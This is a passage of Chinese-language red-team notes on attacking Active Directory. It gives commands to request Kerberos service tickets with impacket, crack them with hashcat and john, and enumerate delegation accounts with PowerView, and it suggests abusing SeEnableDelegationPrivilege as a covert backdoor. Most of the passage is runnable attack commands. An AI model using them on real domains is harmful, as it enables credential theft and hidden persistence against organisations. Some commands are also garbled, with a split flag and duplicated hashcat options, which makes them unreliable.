 使用 impacket 中的 GetUserSPN.py 也可以获取，不过需要域用户名和密码：
```powershell
GetUserSPNs.exe -request -
c-ip 192.168.3.142 0day.org/sqlsvr
```
也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

使用hashcat指定字典解密：
```bash
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force

//使用hashcat破解
hashcat64.exe -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l

//使用john破解

./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt

./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

### 委派

#### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION;当被设置为约束性委派时，其 userAccountControl 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 msDS-AllowedToDelegateTo 属性会被设置为哪些协议:

加载 powerview，查询无约束委派账户：
```powershell
Get-NetUser -Unconstrained -Domain 0day.org

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询无约束委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain 0day.org

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain 0day.org

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain 0day.org
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。
